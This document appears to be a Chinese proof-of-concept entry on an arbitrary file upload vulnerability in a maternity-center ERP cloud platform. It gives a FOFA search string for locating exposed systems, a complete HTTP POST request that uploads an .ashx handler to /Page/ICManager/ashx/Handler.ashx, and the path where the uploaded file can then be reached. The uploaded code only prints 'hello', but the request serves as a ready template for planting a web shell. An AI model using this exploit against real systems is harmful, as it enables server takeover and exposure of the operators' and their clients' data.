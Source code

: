 # 月子会所ERP管理云平台ICManager任意文件上传漏洞

# <font style="color:#080808;background-color:#ffffff;">一、漏洞简介</font>
<font style="color:#080808;background-color:#ffffff;">月子会ERP管理云平台是由武汉金同方科技有限公司研发团队结合行业月子中心相关企业需求开发的一套综合性管理软件，管控月子中心经营过程中各个环节。由于未对上传文件进行任何过滤，可上传任意文件，攻击者可利用该漏洞获取服务器控制权。</font>

# <font style="color:#080808;background-color:#ffffff;">二、影响版本</font>
+ <font style="color:#080808;background-color:#ffffff;">月子会所ERP管理云平台</font>

# <font style="color:#080808;background-color:#ffffff;">三、资产测绘</font>
+ fofa`product="妈妈宝盒-ERP"`
+ 登录页面

![1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab.png](./img/E9mmf8vZc6XPsq9a/1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab-894601.png)

# <font style="color:#080808;background-color:#ffffff;">四、漏洞复现</font>
```plain
POST /Page/ICManager/ashx/Handler.ashx HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_301
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 497
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.ashx"

<% @ webhandler language="C#" class="AverageHandler" %> 
using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
    public bool IsReusable 
    { 
        get {
             return true; 
            } 
        } 
        public void ProcessRequest(HttpContext ctx) 
        { 
            ctx.Response.Write("hello"); 
        } 
    }
--00content0boundary00--

```

![1695622920151-0f825dda-fba9-4034-a568-f6cea0263720.png](./img/E9mmf8vZc6XPsq9a/1695622920151-0f825dda-fba9-4034-a568-f6cea0263720-007458.png)

根据回显拼接上传文件位置

```plain
/UploadBaseFolder/Contact/230925754082.ashx
```

![1695622959930-af81fc07-8b36-4612-810d-3acdb51c7a25.png](./img/E9mmf8vZc6XPsq9a/1695622959930-af81fc07-8b36-4612-810d-3acdb51c7a25-056786.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ylu5mwr0gg4g1s8p>